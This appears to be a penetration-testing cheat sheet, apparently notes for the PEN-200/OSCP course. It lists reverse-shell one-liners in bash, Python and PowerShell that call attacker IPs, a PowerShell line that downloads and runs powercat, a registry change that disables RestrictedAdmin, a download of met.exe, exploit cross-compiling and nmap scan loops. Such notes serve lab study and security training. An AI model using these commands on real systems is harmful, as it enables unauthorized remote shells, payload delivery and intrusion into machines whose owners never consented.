 | **Reverse shells** | **Description** |
| ---- | ---- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` | Common reverse shell |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell` | Powershell reverse shell with PowerCat |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

When xfreerdp admin doesn't work
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```

| Enumerating | **Description** |
| ---- | ---- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done` | Quick scan from scope file |
| `mkdir nmap`<br>`for i in $(cat scope.txt); do sudo nmap -p- --min-rate=10000 --open $i -oG nmap/$i; done`<br>`cd nmap`<br>`for i in $(ls \| grep -v '.nmap'); do extractPorts $i; export clipboard_content=`xclip -o -selection clipboard`; nmap -p $clipboard_content -sCV -A -T4 $i -oN "$i.nmap"; done` | Script to process scope.txt file |

**Phising:** Refer to PEN-200 content, 24.3.2 module and use swaks